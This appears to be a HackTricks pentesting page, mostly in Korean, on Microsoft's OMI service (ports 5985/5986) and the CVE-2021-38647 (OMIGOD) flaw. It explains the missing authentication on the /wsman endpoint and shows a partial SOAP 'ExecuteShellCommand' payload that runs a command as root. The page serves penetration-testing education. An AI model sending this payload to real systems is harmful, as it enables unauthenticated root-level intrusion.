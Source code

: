 # 5985,5986 - Pentesting OMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### **기본 정보**

**OMI**는 Microsoft에서 원격 구성 관리를 위해 설계된 **[오픈 소스](https://github.com/microsoft/omi)** 도구로 제공됩니다. 이는 Azure에서 다음과 같은 서비스를 사용하는 Linux 서버와 특히 관련이 있습니다:

- **Azure Automation**
- **Azure Automatic Update**
- **Azure Operations Management Suite**
- **Azure Log Analytics**
- **Azure Configuration Management**
- **Azure Diagnostics**

이 서비스가 활성화되면 `omiengine` 프로세스가 시작되어 루트로 모든 인터페이스에서 수신 대기합니다.

**사용되는 기본 포트**는 **5985** (http) 및 **5986** (https)입니다.

### **[CVE-2021-38647 취약점](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647)**

9월 16일에 관찰된 바와 같이, 언급된 서비스가 배포된 Azure의 Linux 서버는 OMI의 취약한 버전으로 인해 취약합니다. 이 취약점은 OMI 서버가 `/wsman` 엔드포인트를 통해 메시지를 처리할 때 인증 헤더를 요구하지 않아 클라이언트를 잘못 인증하는 데 있습니다.

공격자는 인증 헤더 없이 "ExecuteShellCommand" SOAP 페이로드를 전송하여 서버가 루트 권한으로 명령을 실행하도록 강제할 수 있습니다.
```xml
<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing"
...
<s:Body>
<p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
<p:command>id</p:command>
<p:timeout>0</p:timeout>
</p:ExecuteShellCommand_INPUT>
</s:Body>
</s:Envelope>
```
CVE에 대한 더 많은 정보는 **[여기](https://github.com/horizon3ai/CVE-2021-38647)**를 확인하세요.

## 참고자료

* [https://www.horizon3.ai/omigod-rce-vulnerability-in-multiple-azure-linux-deployments/](https://www.horizon3.ai/omigod-rce-vulnerability-in-multiple-azure-linux-deployments/)
* [https://blog.wiz.io/omigod-critical-vulnerabilities-in-omi-azure/](https://blog.wiz.io/omigod-critical-vulnerabilities-in-omi-azure/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
